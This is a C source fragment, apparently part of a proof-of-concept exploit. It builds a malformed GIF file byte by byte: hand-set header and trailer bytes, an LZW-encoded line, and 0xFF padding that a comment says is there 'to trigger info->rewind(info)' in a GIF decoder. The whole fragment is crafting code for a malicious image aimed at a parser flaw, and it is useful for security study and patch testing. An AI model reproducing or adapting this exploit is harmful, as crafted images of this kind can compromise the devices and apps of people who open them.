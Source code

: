 ```c
    GifFilePrivateType Private = {
            .Buf[0] = 0,
            .BitsPerPixel = 8,
            .ClearCode = 256,
            .EOFCode = 257,
            .RunningCode = 258,
            .RunningBits = 9,
            .MaxCode1 = 512,
            .CrntCode = FIRST_CODE,
            .CrntShiftState = 0,
            .CrntShiftDWord = 0,
            .PixelCount = 112,
            .OutBuf = { 0 },
            .OutBufLen = 0
    };
    int size = 0;
    unsigned char buffer[1000] = { 0 };

    unsigned char line[500] = { 0 };
    int line_size = genLine_0(line);
    EGifCompressLine(&Private, line, line_size);

    unsigned char starting[48] = {
            0x47, 0x49, 0x46, 0x38, 0x39, 0x61, 0x18, 0x00, 0x0A, 0x00, 0xF2, 0x00, 0x00, 0x66, 0xCC, 0xCC,
            0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x33, 0x99, 0x66, 0x99, 0xFF, 0xCC, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00, 0x00, 0x00, 0x00, 0x08, 0x00, 0x15, 0x00, 0x00, 0x08
    };
    unsigned char padding[2] = { 0xFF, 0xFF };
    unsigned char ending[61] = {
            0x2C, 0x00, 0x00, 0x00, 0x00, 0x1C, 0x0F, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00, 0x00, 0x00, 0x00,
            0x1C, 0x0F, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00,
            0x00, 0x00, 0x00, 0x18, 0x00, 0x0A, 0x00, 0x0F, 0x00, 0x01, 0x00, 0x00, 0x3B
    };

    // starting bytes
    memcpy(buffer + size, starting, sizeof(starting));
    size += sizeof(starting);

    // size of encoded line + padding
    int tmp = Private.OutBufLen + sizeof(padding);
    buffer[size++] = tmp;

    // encoded-line bytes
    memcpy(buffer + size, Private.OutBuf, Private.OutBufLen);
    size += Private.OutBufLen;

    // padding bytes of 0xFFs to trigger info->rewind(info);
    memcpy(buffer + size, padding, sizeof(padding));
    size += sizeof(padding);

    // ending bytes
    memcpy(buffer + size, ending, sizeof(ending));
    size += sizeof(ending);

    char hex_dump[5000];
    get_hex(buffer, size, hex_dump, 5000, 16);
```